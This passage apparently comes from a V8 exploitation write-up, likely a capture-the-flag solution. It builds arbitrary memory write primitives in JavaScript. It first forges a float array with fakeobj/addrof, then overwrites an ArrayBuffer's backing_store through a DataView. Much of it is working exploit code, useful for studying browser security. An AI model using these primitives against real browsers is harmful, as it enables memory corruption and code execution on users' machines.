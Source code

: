 Therefore, we can achieve a initial version of arbitrary address overwrite and try to build a more powerful arbitrary address overwrite primitive.

```
function initial_arb_write(addr, val) {
    // Place a fakeobj right on top of our crafted array with a float array map
    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);

    // Change the elements pointer using our crafted array to write_addr-0x10
    arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);

    // Write to index 0 as a floating point value
    fake[0] = itof(BigInt(val));
}
```

**A more robust version**

To achieve a more robust version of arbitrary address write primitive, we need to use `ArrayBuffer` and `DataView` object. These two object types provide a more low-level access for raw binary data buffer: `ArrayBuffer` represent an array of bytes (e.g. byte array), and `DataView` provides a way to define how would you interpret these bytes.

Instead of using a Array of float, we use the Array of bytes (i.e. `ArrayBuffer`) and try to overwrite its `backing_store` (which can be seen as the `elements` field of the Array of float).

![](./solution/assets/arbitrary-write-primitive.jpg)

```
function arb_write(addr, val) {
    let buf = new ArrayBuffer(8);
    let dataview = new DataView(buf);
    let buf_addr = addrof(buf);
    let backing_store_addr = buf_addr + 0x20n;
    initial_arb_write(backing_store_addr, addr);
    dataview.setBigUint64(0, BigInt(val), true);
}
```
